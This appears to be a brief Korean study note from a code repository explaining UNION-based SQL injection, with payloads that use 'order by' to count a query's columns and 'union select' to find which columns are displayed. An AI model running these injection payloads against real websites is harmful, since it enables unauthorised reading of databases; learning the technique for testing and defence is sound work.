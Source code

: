 # shincheonji

# UNION SQL INJECTION

order by: 어떤것으로 정렬 하겠다
```
aa' order by 1 #1에서부터 1씩 늘려가며 컬럼 개수를 알아낸다.
aa' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 #정확히 어떤 컬럼들이 화면에 출력돼는지 확인한다. 만약 컬럼개수가 3개라면 "   aa' union select 1,2,3 #   " 이렇게 한다.
```
